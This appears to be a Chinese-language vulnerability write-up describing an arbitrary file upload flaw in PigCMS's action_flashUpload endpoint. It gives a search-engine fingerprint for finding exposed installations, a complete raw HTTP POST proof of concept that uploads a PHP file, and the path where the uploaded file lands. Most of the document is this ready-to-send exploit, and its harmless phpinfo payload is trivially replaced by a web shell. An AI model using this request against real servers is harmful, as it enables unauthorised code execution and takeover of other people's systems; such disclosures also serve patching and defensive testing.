

# PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

pigcms

## 网络测绘

```
app.name="PigCMS"
```

## 漏洞复现

登陆页面


验证POC

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```



```
/cms/upload/images/2023/08/11/1691722887xXbx.php
```

